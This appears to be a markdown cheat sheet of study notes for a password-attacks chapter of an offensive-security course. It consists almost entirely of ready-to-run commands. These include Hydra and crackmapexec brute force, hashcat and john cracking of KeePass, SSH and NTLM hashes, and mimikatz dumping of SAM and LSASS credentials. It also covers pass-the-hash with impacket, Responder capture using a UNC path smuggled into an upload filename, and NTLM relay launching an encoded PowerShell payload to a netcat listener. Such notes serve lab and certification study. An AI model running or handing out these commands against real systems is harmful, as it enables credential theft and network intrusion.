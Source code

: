 ## 15.1.1. SSH and RDP

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://$IP

hydra -L /usr/share/wordlists/dirb/others/names.txt -p "password" rdp://$IP

crackmapexec smb $IP -u /tmp/userlist.txt -p 'Company01!'
```

## 15.1.2. HTTP POST Login Form

- https://notes.benheater.com/books/hydra/page/brute-force-http-basic-authentication-with-hydra

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

hydra -I -V -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://$IP/:A=BASIC:F=401"
```

## 15.2.1. Introduction to Encryption, Hashes and Cracking

```bash
echo -n "password" | sha256sum

hashcat -b
```

## 15.2.2. Mutating Wordlists

- https://hashcat.net/wiki/doku.php?id=rule_based_attack

```bash
sed -i '/^1/d' demo.txt

echo \$1 > demo.rule
hashcat -r demo.rule --stdout demo.txt

hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
```

## 15.2.3. Cracking Methodology

```bash
hash-identifier
hashid hash.txt
```

## 15.2.4. Password Manager

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

keepass2john Database.kdbx > keepass.hash

john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash 

hashcat --help | grep -i "KeePass"

hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## 15.2.5. SSH Private Key Passphrase

```bash
chmod 600 id_rsa
ssh -i id_rsa -p 2222 user@$IP

ssh2john id_rsa > ssh.hash

hashcat -h | grep -i "ssh"

cat ssh.rule
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force

cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

## 15.3.1. Cracking NTLM

```bash
Get-LocalUser

cd C:\tools\
.\mimikatz.exe

privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords

cat nelly.hash

hashcat --help | grep -i "ntlm"

hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## 15.3.2. Passing NTLM

```bash
Get-LocalUser

cd C:\tools\
.\mimikatz.exe

privilege::debug
token::elevate
lsadump::sam

smbclient \\\\$IP\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@IP

impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@$IP
```

## 15.3.3. Cracking Net-NTLMv2

```bash
sudo responder -I tun0

dir \\$IP_MIO\\\test

hashcat --help | grep -i "ntlm"

hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force

POST /upload HTTP/1.1
Host: marketingwk01:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1889001907497686701770539138
Content-Length: 236
Origin: http://192.168.155.210:8000
Connection: close
Referer: http://192.168.155.210:8000/
Upgrade-Insecure-Requests: 1

-----------------------------1889001907497686701770539138
Content-Disposition: form-data; name="myFile"; filename="\\\\IP_MIO\\test"
Content-Type: text/plain
-----------------------------1889001907497686701770539138--
```

## 15.3.4. Relaying Net-NTLMv2

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $IP_2\TEST -c "powershell -enc JABjAGwAaQBlAG4AdA..."

nc -nvlp 8080

nc $IP_1 5555

dir \\$IP_MIO\test
```